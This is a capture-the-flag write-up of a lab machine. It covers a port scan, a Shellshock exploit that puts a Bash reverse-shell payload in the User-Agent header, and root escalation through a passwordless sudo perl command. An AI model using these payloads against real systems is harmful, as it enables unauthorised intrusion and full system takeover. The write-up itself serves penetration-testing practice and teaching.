


I started by performing a full TCP port scan against the target host to identify exposed services.
nmap -Pn -sC -sV -p- --open 10.10.10.56 -oN scan.txtThe scan revealed that the SSH and HTTP services were accessible. After visiting the web application, I did not find any interesting functionality or visible attack vectors. Reviewing the page source also did not reveal anything useful.
Since the web server was running CGI scripts, I manually inspected the /cgi-bin/ directory and discovered the script user.sh.

Accessing the user.sh script triggered a file download. I intercepted the request using Burp Suite and sent it to the Repeater for further analysis. The server processed the request using the GET method.
Based on the behavior of the CGI script and the server configuration, I identified the presence of the Shellshock vulnerability, which allows command execution through crafted HTTP headers.

To exploit the vulnerability, I injected a malicious payload into the User-Agent HTTP header. This payload executed a Bash reverse shell, allowing me to gain remote command execution on the target system.
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1After setting up a listener on my machine, I successfully obtained a reverse shell and was able to read the user.txt flag.
Once inside the system, I checked the sudo privileges assigned to the compromised user. The output revealed that the perl binary could be executed as root without requiring a password.
Using a known technique from GTFOBins, I leveraged this misconfiguration to spawn a root shell.
sudo perl -e 'exec "/bin/sh";'With elevated privileges, I accessed the root.txt flag, completing the compromise of the system.